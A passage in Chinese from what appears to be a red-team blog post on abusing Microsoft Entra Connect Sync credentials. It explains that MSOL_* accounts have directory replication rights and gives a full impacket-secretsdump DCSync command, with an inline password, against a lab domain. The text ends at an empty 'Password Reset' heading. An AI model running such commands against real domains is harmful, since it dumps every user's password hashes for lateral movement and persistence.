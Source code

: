 接下来，我们将介绍在成功获取 Connect Sync 凭据后的滥用方法。基于提取到的 `MSOL_*` 和 `Sync_*` 账户凭据，我们可以分别针对本地 Active Directory 和 Microsoft Entra ID 发起攻击。

## DCSync

在对 Connect Sync 的滥用案例中，最具代表性的攻击路径是通过 Microsoft Entra Connect（前称 Azure AD Connect）创建的 `MSOL_*` 本地连接账户执行 DCSync。该类账户常被授予 `Replicate Directory Changes` 与 `Replicate Directory Changes All` 两项目录复制权限，攻击者可向本地目录服务请求密码哈希复制，从而大规模导出本地域用户的凭据并用于后续攻击链条中的横向移动与长期隐蔽访问。

```bash
impacket-secretsdump offseclabs.tech/MSOL_87c68feabd8e:'gq[$@d/5D%@5$V]_3GS(;8^fZji$+g=[[1pQ[@_CZ@s??]%%pqn4-h/cG=h:fb{xi7+Z}WT8)EiB/n9ZIb*5_VgZFba#pnCEhP:WZqetG[}q.5+A7|CVnB|$J^&)e;m'@srvad01.offseclabs.tech -just-dc
```

![Snipaste_2025-09-27_05-18-52](/assets/posts/2025-10-01-entra-id-tracing-the-abuse-history-of-connect-sync/Snipaste_2025-09-27_05-18-52.png)

## Password Reset
